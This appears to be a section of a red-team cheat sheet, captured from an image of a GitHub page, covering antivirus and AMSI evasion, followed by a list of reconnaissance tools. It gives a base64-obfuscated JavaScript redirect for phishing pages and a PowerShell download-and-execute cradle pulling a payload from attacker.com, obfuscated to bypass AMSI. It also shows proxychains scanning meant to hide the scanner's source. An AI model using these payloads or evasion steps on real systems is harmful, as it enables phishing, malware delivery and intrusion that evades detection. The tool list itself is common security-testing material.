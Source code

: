 ## AV/AMSI Evasion Techniques
- **Obfuscated Phishing Payloads**:
  - **Technique**: Use encoded or obfuscated JavaScript/HTML in phishing pages to evade AV detection.
  - **Execution**: Create a phishing page with Base64-encoded JavaScript.
    ```html
    <script>eval(atob('ZG9jdW1lbnQubG9jYXRpb24gPSAnaHR0cDovL2F0dGFja2VyLmNvbS9sb2dpbi5waHA='));</script>
    ```
    - **Purpose**: Redirect users to a malicious page without triggering AV.
- **Proxy Usage**:
  - **Technique**: Route reconnaissance traffic through proxies or Tor to avoid detection by network-based AV/EDR systems.
  - **Execution**: Use `proxychains` with `nmap`.
    ```bash
    proxychains nmap -sP 192.168.1.0/24
    ```
    - **Purpose**: Mask the source of active scans to evade network monitoring.
- **AMSI Bypass for Payloads**:
  - **Technique**: Obfuscate PowerShell payloads in phishing emails to bypass AMSI.
  - **Execution**: Use `Invoke-Obfuscation` to encode payloads.
    ```powershell
    Invoke-Obfuscation -ScriptBlock {IEX((New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1'))} -Technique Encode
    ```
    **Example Output**:
    ```
    $encoded = "JAB...=="
    Invoke-Expression ([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($encoded)))
    ```
    - **Purpose**: Prevent AMSI from detecting malicious PowerShell scripts.

## Tools
- **theHarvester**: OSINT for emails and subdomains (`theHarvester -d example.com -b all`).
- **dnsrecon**: DNS enumeration (`dnsrecon -d example.com -t std`).
- **whois**: Domain registration lookup (`whois example.com`).
- **Nmap**: Network scanning (`nmap -sV -p- <target>`).
- **Recon-ng**: OSINT framework (`recon/domains-hosts/hackertarget`).
- **Maltego**: Visualizes relationships between entities.
- **Censys/crt.sh**: Certificate transparency log queries.
- **SET**: Social engineering toolkit for phishing.

## Best Practices
- Avoid active scanning unless explicitly authorized to prevent detection or disruption.
- Document all findings (domains, IPs, emails) in a structured format.
- Use proxies or VPNs to anonymize reconnaissance activities.
- Verify legal boundaries when collecting personal data via OSINT.